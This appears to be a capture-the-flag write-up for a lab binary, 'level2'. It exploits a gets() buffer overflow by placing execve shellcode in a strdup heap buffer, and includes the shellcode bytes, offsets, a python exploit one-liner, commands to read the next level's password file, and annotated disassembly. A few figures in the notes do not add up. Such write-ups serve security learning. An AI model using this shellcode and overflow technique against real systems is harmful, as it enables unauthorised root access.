 - attack: buffer overflow with indirect shell call
- binary behavior: reprints argument
- targeted functions: p and main
- vulnerability in main: gets()
- vulnerability in p: strdup()
- defense: no stack overwirting is possible because of comparison of eip address with predefined eip address 

Method:
- find the offset padding size
- overflow the binary
- find the buffer address used by strdup
- overwrite buffer by code calling shell
- overwrite eip by the buffer address
- cat passwd when get console with root privedges

Shell code: 52 http://shell-storm.org/shellcode/files/shellcode-863.html
"\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68"   

Info:
- 0x0804a008 - buffer address
- 0x08a00480 - same in little-endian
- same in hex - \x08\xa0\x04\x08

- offset of eip register - 80 (from wiremask.eu)
- offset code structure: 80 = 4 (return address) + 52 (shell code) + 28

QA
- How do we know buffer address?
- ltrace() and see address of strdup

- How do we know the padding size? 
- by interative search or by buffer size (80 - 4)

Code:
objdump -d ./level2
ltrace ./level2 

gdb level2
(gdb) r <<< Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4
Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
(python -c 'print "\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68"  + "a" * 28 + "\x08\xa0\x04\x08"';cat) | ./level2
whoami
cat /home/user/level3/.pass


Functions

main
0804853f <main>:
 804853f:       55                      push   %ebp
 8048540:       89 e5                   mov    %esp,%ebp
 8048542:       83 e4 f0                and    $0xfffffff0,%esp
 8048545:       e8 8a ff ff ff          call   80484d4 <p>      #call function p
 804854a:       c9                      leave
 804854b:       c3                      ret

p

080484d4 <p>:
 80484d4:       55                      push   %ebp
 80484d5:       89 e5                   mov    %esp,%ebp
 80484d7:       83 ec 68                sub    $0x68,%esp   # 104
 80484da:       a1 60 98 04 08          mov    0x8049860,%eax
 80484df:       89 04 24                mov    %eax,(%esp)
 80484e2:       e8 c9 fe ff ff          call   80483b0 <fflush@plt>
 80484e7:       8d 45 b4                lea    -0x4c(%ebp),%eax #76
 80484ea:       89 04 24                mov    %eax,(%esp)
 80484ed:       e8 ce fe ff ff          call   80483c0 <gets@plt>
 80484f2:       8b 45 04                mov    0x4(%ebp),%eax
 80484f5:       89 45 f4                mov    %eax,-0xc(%ebp)
 80484f8:       8b 45 f4                mov    -0xc(%ebp),%eax
 80484fb:       25 00 00 00 b0          and    $0xb0000000,%eax #defence
 8048500:       3d 00 00 00 b0          cmp    $0xb0000000,%eax #defence
 8048505:       75 20                   jne    8048527 <p+0x53>
 8048507:       b8 20 86 04 08          mov    $0x8048620,%eax
 804850c:       8b 55 f4                mov    -0xc(%ebp),%edx
 804850f:       89 54 24 04             mov    %edx,0x4(%esp)
 8048513:       89 04 24                mov    %eax,(%esp)
 8048516:       e8 85 fe ff ff          call   80483a0 <printf@plt>
 804851b:       c7 04 24 01 00 00 00    movl   $0x1,(%esp)
 8048522:       e8 a9 fe ff ff          call   80483d0 <_exit@plt>
 8048527:       8d 45 b4                lea    -0x4c(%ebp),%eax
 804852a:       89 04 24                mov    %eax,(%esp)
 804852d:       e8 be fe ff ff          call   80483f0 <puts@plt>
 8048532:       8d 45 b4                lea    -0x4c(%ebp),%eax
 8048535:       89 04 24                mov    %eax,(%esp)
 8048538:       e8 a3 fe ff ff          call   80483e0 <strdup@plt> #exploit
 804853d:       c9                      leave
 804853e:       c3                      ret



 
             